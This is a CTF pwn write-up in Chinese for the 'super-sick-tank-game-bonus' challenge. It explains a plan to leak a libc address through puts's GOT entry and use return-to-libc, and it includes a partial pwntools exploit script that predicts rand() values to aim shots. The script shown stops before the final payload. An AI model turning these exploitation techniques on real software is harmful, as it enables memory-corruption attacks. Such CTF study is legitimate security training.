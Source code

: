 ### super-sick-tank-game-bonus

相较于上一题删除了后门函数，因此我们需要泄露libc地址，return2libc即可。

那么我们在上题的基础上修改heart 为puts函数的got 表，即可泄露libc。

![image-20231130172720591](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001085.png)

```python
from pwn import*
from ctypes import CDLL
from math import*
context.arch='amd64'
context.log_level='debug'
#p=remote("184.72.87.9",8004)
p=process('./super-sick-tank-game-bonus')
libc=ELF('./libc.so.6')
mylibc=CDLL("./libc.so.6")
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
    gdb.attach(p,"b *0x4016D0")
    pause()


def myfun(num,max_power=33,max_ange=90):
    if max_ange>180:
        max_ange=180
    #log("max_ange")
    #log("max_power")
    for v0 in range(0,max_power+1):
        for theta in range(0,max_ange+1):
            thetaRad = 3.141592653589793 * theta / 180.0;
            vx = cos(thetaRad) * v0;
            vy = sin(thetaRad) * v0;
            result=(vx * ((vy + vy) / 9.81))
            if int(result)==num:
                print("v0=="+str(v0)+"theta=="+str(theta))
                return v0,theta


def shot(ammo_type=1):
    result=(mylibc.rand())%0x70-1
    print("result=="+str(result))
    power,angle=myfun(result)
    ru("|100m\n")
    first_line=p.recvline()
    if first_line==b"Hit Streak! 1 specialty ammo granted\n":
        info(b'+1 specialty ammo')
        ru("Select ammo type:\n1: _\n2: -")
        sl(str(ammo_type))
    sl(str(power))
    ru("Enter angle: ")
    sl(str(angle))
```